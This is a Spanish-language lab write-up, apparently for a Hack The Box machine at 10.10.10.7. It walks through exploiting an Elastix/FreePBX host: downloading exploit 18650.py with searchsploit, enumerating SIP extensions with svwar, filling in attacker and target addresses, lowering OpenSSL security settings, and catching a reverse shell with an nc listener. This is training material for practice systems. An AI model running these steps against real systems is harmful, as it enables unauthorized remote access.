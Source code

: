 Descargamos el exploit.

```bash
searchsploit -m php/webapps/18650.py
```

Este script de explotación requiere de 4 datos:

* RHOST
* LHOST
* LPORT
* EXTENSIÓN

El único dato que no conocemos es el número de extensión, por lo que vamos a hacer uso de la utilidad `svwar` para identificar la posible o posibles extensiones configuradas en la máquina.
  
```bash
svwar -m INVITE -e100-999 10.10.10.7
```
```bash
#Resultados
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
```

Modificamos el script con los datos solicitados anteriormente.

```bash
vim 18650.py
  rhost="10.10.10.7"
  lhost="10.10.14.3"
  lport=4564
  extension="233"
```

Para este ejercicio debemos configurar el archivo `/etc/ssl/openssl.cnf` para lograr comunicaciones por cifrados débiles de la siguiente manera.

```bash
sudo vim /etc/ssl/openssl.cnf
#MODIFICAR AL FINAL DEL ARCHIVO
#MinProtocol = DEFAULT@SECLEVEL=2
MinProtocol = None
#CipherString = DEFAULT@SECLEVEL=2
CipherString = None
```

Nos ponemos ahora si en escucha.

```bash
nc -lnvp 4564
```

Ejecutamos el script con `python2`

```bash
python2 18650.py
```
